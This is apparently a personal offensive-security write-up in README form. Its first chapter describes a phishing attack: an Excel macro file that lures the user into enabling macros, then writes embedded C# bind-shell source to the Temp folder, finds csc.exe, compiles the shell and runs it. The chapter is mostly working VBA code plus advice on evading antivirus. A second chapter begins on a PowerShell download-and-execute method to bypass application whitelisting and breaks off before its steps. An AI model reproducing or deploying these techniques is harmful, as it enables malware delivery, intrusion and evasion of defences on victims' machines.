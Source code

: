 # InfoSec Chronicles from Noobland
## Chapter 0: Abuse Excel VBA macro, a simple approach
###### 21/07/20 ver 1.2
In this article I will illustrate how to execute a payload loaded from a VBA macro script embedded in an Excel xlsm file.<br>
I did not implement any obfuscation\encrypting technique, this has to be consider as a POC. Beware that using well known tools will rise AV warning in most cases,
The requirement was to bypass a note AV software installed on a client machine. Following the events:
* A mail with the Excel file was sent to the client, here I play the role of the victim<br>
![Screenshot](screen/mail.png)
* The mail was not marked as Spam, the user eventually can open directly the enclosed file using the corresponding Outlook feature or download to a local folder
* Once the file has been opened of course a warning appears about the macro content. Here it is necessary to lure the user to enable the macro<br>
![Screenshot](screen/macro.png)
* If the macro is enabled the VBA script will *compile a payload*, in this case a bind shell and execute it. Here the MS firewall warn the user since I used a not common port (4444), using a port like 80 did not rise any warning<br>
![Screenshot](screen/fwarn.png)
* The bind shell is executed (a shell window will popup, you need of course to hide it), the AV will sandbox the exe file but actually the shell is executed<br/>
![Screenshot](screen/run.png)
###### *The logic*
* I embedded the source code of the bind shell in the comment property of the Excel file Here the link to the MS doc: https://docs.microsoft.com/en-us/dotnet/api/microsoft.office.tools.excel.workbook.builtindocumentproperties?view=vsto-2017 and I retrived the value in the VBA script as follows:<br>
`var = ActiveWorkbook.BuiltinDocumentProperties(5)`<br>
I used a file system object to write the source code of the shell to the *user temp folder*
```
    Dim path As String
    path = Environ("Temp")
    Dim FSO As Object
    Set FSO = CreateObject("Scripting.FileSystemObject")
    Dim oFile As Object
    Set oFile = FSO.CreateTextFile(path & "\mal.cs")
```
* Then I write the content to the file
```   
   oFile.Write var
   oFile.Close
```
* I used the same technique to get the port, that is parametric, and to initialize the wscript shell object<br>
![Screenshot](screen/propxlsm.png)
```
    Dim wSo as Object
    shellObj = ActiveWorkbook.BuiltinDocumentProperties(4)
    wSo = CreateObject(shellObj)
```
* Now we need to find a compiler on the system, I searched for the *csc.exe* since the .Net FW is installed almost on every newer Win OS and my payload is written in C#. Follows the recursive function used to accomplish the task
```
Sub FindCSC(ByVal folderPath As String)

Dim fileName As String
Dim fullFilePath As String
Dim numFolders As Long
Dim folders() As String
Dim i As Long

If Right(folderPath, 1) <> "\" Then folderPath = folderPath & "\"
fileName = Dir(folderPath & "*.*", vbDirectory)

While Len(fileName) <> 0

    If Left(fileName, 1) <> "." Then
 
        fullFilePath = folderPath & fileName
 
        If (GetAttr(fullFilePath) And vbDirectory) = vbDirectory Then
            ReDim Preserve folders(0 To numFolders) As String
            folders(numFolders) = fullFilePath
            numFolders = numFolders + 1
        Else
            If fileName = "csc.exe" Then
                CSC = folderPath & fileName 'found compiler
                Exit Sub
            End If
        End If
 
    End If
 
    fileName = Dir()

Wend

For i = 0 To numFolders - 1
    'if found we exit
    If CSC <> "" Then
        Exit For
    End If
    FindCSC folders(i)
 
Next i

End Sub
```
* Now assuming that the full path of csc.exe is stored in the CSC variable the following will compile the source file:
```
    Dim exePath As String
    exePath = """" & path & "\mal.exe" & """"
    wSo.exec CSC & " /t:exe /out:" & exePath & " " & csPath
```
* Finally I executed the bind shell
```
wSo.exec path & "\mal.exe"
```
* Once the source file has been compiled it will be deleted, if not runnin even the exe file will be deleted on closing the Excel file

###### *Conclusion*
The idea is to compile a payload on the victim machine in order to avoid to downlad it from somewhere since the corresponding code will rise alerts on AV software, same thing happens trying to run a cmd or a bat file. Not talk about powershell. Of course you have to avoid to embedd well-known code or created with msfvenom since they will be detected once compiled. Be creative and code your stuff.<br>Here you can download the Excel file and the source code of the bind shell, the file is encrypted and you need a password to open it, if you are good guy ;) you can drop me an email at **filobers[at]pm[dot]me** and I will happy to assist you<br>

## Chapter 1: Abuse IE to download and execute a payload through PS
###### 13/09/20 ver 1.0
I had to bypass a white list applications execution enviroment, lucky PS scripts were allowed on almost every machine, as well as .Net FW 3.5 executable (not signed).
The client has installed an AV solution, with an host firewall. No IPS\IDS were present on the network (now they are!).<br>
Here I will skip the social engineering part about how to lure the victim to lunch the PS script, actually this is the real magic part :). This is only a POC. Following the recipe:
1. An SSL certificate (here I will use a fake one, providing the code to bypass the error)
1. A windows client (AKA victim) machine: in this POC a win 10 pro x64 box, with a AV solution and host firewall activated
1. An attacker Linux box with Python an *old netcat version installed, here I use Parrot OS.<bR>
Since this is only a POC, as usual, not covering techniques are implemented, to cut the long story short I skip all the red teaming stuff. The execution plane was:<br>

